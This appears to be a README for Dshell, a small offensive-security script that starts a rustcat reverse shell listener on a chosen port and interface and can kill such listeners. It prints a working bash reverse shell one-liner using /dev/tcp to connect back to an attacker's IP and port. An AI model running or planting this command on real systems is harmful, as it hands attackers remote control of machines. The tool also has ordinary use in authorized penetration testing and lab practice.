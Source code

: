 ## Dshell

> "A reverse shell shows that true control comes when the target reaches back willingly."

**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).

---

### Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.

---

### Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.

---

### Usage

#### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```

---

#### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

---

#### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.

---

#### Examples

Start a listener on port `4444` using tun0 interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP 1.1.1.1:

```sh
dshell -p 4444 1.1.1.1
```

Kill all running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port 4444:

```sh
dshell -k 4444
```
